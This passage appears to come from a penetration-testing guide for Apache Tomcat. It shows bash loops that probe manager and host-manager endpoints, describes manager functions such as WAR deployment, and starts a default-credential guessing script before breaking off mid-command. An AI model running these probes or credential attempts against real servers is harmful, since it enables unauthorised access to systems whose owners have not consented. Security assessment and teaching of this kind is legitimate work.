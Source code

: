 ```bash
echo "[+] Testing Manager Application endpoints:"
for endpoint in "${manager_endpoints[@]}"; do
    response=$(curl -s -o /dev/null -w "%{http_code}" "http://target.com:8080$endpoint")
    echo "$endpoint: HTTP $response"
    
    # 401 = Authentication required (manager exists)
    # 404 = Endpoint not found
    # 403 = Access forbidden
done
```

#### Manager Application Functionality
```bash
# Manager application capabilities (when accessible):
# /manager/html     - Web-based GUI for application management
# /manager/text     - Text-based API for scripting
# /manager/jmxproxy - JMX monitoring and management
# /manager/status   - Server status information

# Text interface commands (if authenticated):
# /manager/text/list              - List deployed applications
# /manager/text/deploy?war=...    - Deploy WAR file
# /manager/text/undeploy?path=... - Remove application
# /manager/text/reload?path=...   - Reload application
# /manager/text/sessions?path=... - Session information
```

#### Host Manager Discovery
```bash
# Host Manager for virtual host administration
curl -I http://target.com:8080/host-manager/
curl -I http://target.com:8080/host-manager/html

# Host manager capabilities:
# - Virtual host management
# - SSL certificate management  
# - Context configuration
# - Less commonly accessible than regular manager
```

### Default Credential Testing

#### Common Tomcat Credentials
```bash
# Standard default credentials (often unchanged):
credentials=(
    "tomcat:tomcat"
    "admin:admin"
    "manager:manager"
    "admin:password"
    "tomcat:password"
    "admin:tomcat"
    "admin:"
    "tomcat:"
    "manager:admin"
    "admin:manager"
)

# Basic authentication testing:
for cred in "${credentials[@]}"; do
    username=$(echo $cred | cut -d':' -f1)
    password=$(echo $cred | cut -d':' -f2)
    
    response=$(curl -s -u "$username:$password" \
```